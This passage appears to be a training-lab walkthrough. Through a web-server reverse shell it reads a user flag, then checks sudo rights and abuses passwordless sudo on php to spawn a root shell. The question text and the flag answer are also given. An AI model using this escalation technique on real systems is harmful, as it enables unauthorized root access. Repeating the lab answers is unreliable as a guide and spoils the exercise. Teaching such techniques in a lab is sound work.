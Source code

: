```shell
cat /home/mrb3n/user.txt
```

```
www-data@gettingstarted:/var/www/html/theme/Innovation$ cat /home/mrb3n/user.txt

7002d65b149b0a4d19132a66feed21d8
```

Answer: `7002d65b149b0a4d19132a66feed21d8`

# Knowledge Check

## Question 2

### "After obtaining a foothold on the target, escalate privileges to root and submit the contents of the root.txt flag."

Using the same reverse-shell connection established in the previous question, many approaches can be taken to solve this question.

A first approach is whereby students check the allowed commands for the invoking user on the spawned target machine, to notice that the user `www-data` can run as `root` the `PHP` command:

Code: shell

```shell
sudo -l
```

```
www-data@gettingstarted:/var/www/html/theme/Innovation$ sudo -l

Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:
	/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
```

According to [GTFOBins](https://gtfobins.github.io/gtfobins/php/#sudo), this can be abused to gain an elevated shell-session shell:

Code: shell

```shell
sudo php -r "system('/bin/bash');"
whoami
```

```
www-data@gettingstarted:/var/www/html/theme/Innovation$ sudo php -r "system('/bin/bash');"
root@gettingstarted:/var/www/html/theme/Innovation\# whoami

root
```
